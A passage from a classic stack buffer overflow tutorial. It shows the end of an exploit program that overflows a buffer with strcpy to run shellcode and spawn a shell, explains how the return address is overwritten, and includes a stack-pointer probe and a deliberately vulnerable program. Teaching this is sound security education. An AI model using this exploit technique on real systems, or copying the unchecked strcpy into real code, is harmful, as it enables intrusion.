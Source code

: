 		for (i = 0; i < strlen(shellcode); i++)
		large_string[i] = shellcode[i];

		strcpy(buffer,large_string);
	}

`[aleph1]$ gcc -o exploit1 exploit1.c`

`[aleph1]$ ./exploit1`

`$ exit`

`exit`

`[aleph1]$`

What we have done above is filled the array `large_string[]` with the
address of `buffer[]`, which is where our code will be.  Then we copy our
shellcode into the beginning of the large_string string.  `strcpy()` will then
copy `large_string` onto buffer without doing any bounds checking, and will
overflow the return address, overwriting it with the address where our code
is now located.  Once we reach the end of main and it tried to return it
jumps to our code, and execs a shell.

The problem we are faced when trying to overflow the buffer of another
program is trying to figure out at what address the buffer (and thus our
code) will be.  The answer is that for every program the stack will
start at the same address.  Most programs do not push more than a few hundred
or a few thousand bytes into the stack at any one time.  Therefore by knowing
where the stack starts we can try to guess where the buffer we are trying to
overflow will be.  Here is a little program that will print its stack
pointer:

*sp.c*

	unsigned long get_sp(void) {
   	__asm__("movl %esp,%eax");
	}
	void main() {
 		printf("0x%x\n", get_sp());
	}

`[aleph1]$ ./sp`

`0x8000470`

`[aleph1]$`

Lets assume this is the program we are trying to overflow is:

*vulnerable.c*

	void main(int argc, char *argv[]) {
		char buffer[512];

		if (argc > 1)
		strcpy(buffer,argv[1]);
	}
